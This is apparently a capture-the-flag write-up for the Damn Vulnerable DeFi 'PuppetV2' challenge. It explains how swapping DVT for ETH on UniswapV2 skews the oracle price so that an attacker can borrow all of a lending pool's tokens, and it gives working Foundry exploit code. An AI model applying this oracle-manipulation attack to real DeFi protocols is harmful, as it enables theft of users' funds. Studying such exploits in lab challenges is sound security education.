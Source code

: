 ## PuppetV2 solution

Given 20 ETH and 10000 DVT at the start, we have to steal 1m DVT tokens from the `PuppetV2Pool`. Now it uses UniswapV2 exchange as a price oracle and calculates the amount of WETH needed to deposit before borrowing DVT the following way: 
`amountWETH = (amountDVT * reservesWETH) / reservesDVT`. And this `amountWETH` is then mupliplied by 3, to ensure that the borrower first deposits three times the value in WETH of what he borrows.

Though again, it doesn't prevent price manipulations as we still can swap our 10000 DVT for as much WETH as possible, calling `swapExactTokensForETHSupportingFeeOnTransferTokens` function on `UniswapRouter`

```
    function testExploit() public {
        address[] memory paths = new address[](2);
        address wethPath = address(weth);
        address dvtPath = address(dvt);
        paths[0] = dvtPath;
        paths[1] = wethPath;

        vm.startPrank(attacker);

        // First, we have to take as much ETH as possible from the ETH-DVT Pair
        dvt.approve(address(uniswapV2Router), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapV2Router.swapExactTokensForETHSupportingFeeOnTransferTokens(
            dvt.balanceOf(attacker),
            9e18,
            paths,
            attacker,
            DEADLINE
        );
        assertGt(attacker.balance, ATTACKER_INITIAL_ETH_BALANCE);

        weth.approve(address(pool), attacker.balance);
        weth.deposit{value: attacker.balance}();

        // Then we just simply borrow all the DVT tokens out of the pool
        pool.borrow(dvt.balanceOf(address(pool)));
        validation();
    }
    
    function validation() public {
        // Attacker has taken all tokens from the pool
        assertEq(dvt.balanceOf(attacker), POOL_INITIAL_TOKEN_BALANCE);
        assertEq(dvt.balanceOf(address(pool)), 0);
    }
```